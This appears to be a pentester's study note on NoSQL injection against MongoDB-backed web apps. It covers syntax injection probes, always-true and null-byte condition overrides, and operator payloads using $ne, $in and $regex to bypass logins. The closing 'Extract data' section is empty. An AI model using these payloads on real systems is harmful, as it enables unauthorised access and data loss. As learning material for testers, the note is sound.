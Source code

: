 # NoSQL injection

## NoSQL databases

* They are designed to handle large volumes of unstructured or semi-structured data.
  * benefits in terms of scalability, flexibility, and performance
* Like SQL databases, users interact with data in NoSQL databases using queries but many NoSQL databases use a wide range of query languages instead of a universal standard like SQL (ex. JSON, XML)

### NoSQL database models <a href="#nosql-database-models" id="nosql-database-models"></a>

* Document stores - These store data in flexible, semi-structured documents. They typically use formats such as JSON, BSON, and XML, and are queried in an API or query language. Examples include MongoDB and Couchbase.
* Key-value stores - These store data in a key-value format. Each data field is associated with a unique key string. Values are retrieved based on the unique key. Examples include Redis and Amazon DynamoDB.
* Wide-column stores - These organize related data into flexible column families rather than traditional rows. Examples include Apache Cassandra and Apache HBase.
* Graph databases - These use nodes to store data entities, and edges to store relationships between entities. Examples include Neo4j and Amazon Neptune.

### Types of NoSQL injection <a href="#types-of-nosql-injection" id="types-of-nosql-injection"></a>

1. Syntax injection - when you can break the NoSQL query syntax, enabling the injection (likeSQLi).
2.  Operator injection - when you can use NoSQL query operators to manipulate queries.



## NoSQL syntax injection <a href="#nosql-syntax-injection" id="nosql-syntax-injection"></a>

* Consider: `https://insecure-website.com/product/lookup?category=fizzy`
* This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
  * `this.category == 'fizzy'`
* Inject: `'`
  * `this.category == '''`
    * If this causes a change from the original response, this may indicate that the `'` character has broken the query syntax and caused a syntax error.&#x20;
* Confirm this by submitting a valid query string in the input, ex: `\'`:
  * `this.category == '\''`
    * If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.

### **Confirming conditional behavior**

* false condition: `' && 0 && 'x`
* true condition: `' && 1 && 'x`&#x20;

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

* If the application behaves differently suggests that the false condition impacts the query logic, but the true condition doesn't.



### **Overriding existing conditions**

* Always true: `'||1||'`
* `https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27`
* `this.category == 'fizzy'||'1'=='1'`
* The modified query returns all items (all the products in any category).
* WARN: If an application uses it when updating or deleting data, for example, this can result in accidental data loss.



* MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored.
* `this.category == 'fizzy' && this.released == 1`
* `https://insecure-website.com/product/lookup?category=fizzy'%00`
* `this.category == 'fizzy'\u0000' && this.released == 1`
* If MongoDB ignores all characters after the null character, this removes the requirement for the released field to be set to 1\


## NoSQL operator injection

* Examples of MongoDB query operators
  * `$where` - Matches documents that satisfy a JavaScript expression.
  * `$ne` - Matches all values that are not equal to a specified value.
  * `$in` - Matches all of the values specified in an array.
  * `$regex` - Selects documents where values match a specified regular expression.
* MongoDB Query and Projection Operators: [https://www.mongodb.com/docs/manual/reference/operator/query/](https://www.mongodb.com/docs/manual/reference/operator/query/)



* JSON example:
  * `{"username":"wiener"}` -> `{"username":{"$ne":"invalid"}}`
* URL parameters:
  * `username=wiener` -> `username[$ne]=invalid`
* If this doesn't work, you can try the following (or use Content Type Converter burp exts):
  1. Convert the request method from `GET` to `POST`.
  2. Change the `Content-Type` header to `application/json`.
  3. Add JSON to the message body.
  4. Inject query operators in the JSON.



**Testing**

* To test if you can bypass login try to use a valid credentials (example "bob:pass")
  * `{"username":"bob","password":{"$ne":"invalid"}}`
  * If it works you can try to bypass login with other username\


**Guess with usernames list**

* To target an account, you can construct a payload that includes a known username, or a username that you've guessed:&#x20;
  * `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`\


**Guess with regex**

`{"username":{"$regex":"^adm"},"password":{"$ne":""}}`



**Other tests**

* Example:`{"username":"wiener","password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
* This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.

## Extract data



\
\


\


\


\
\


\


\


\


\


\


\


\
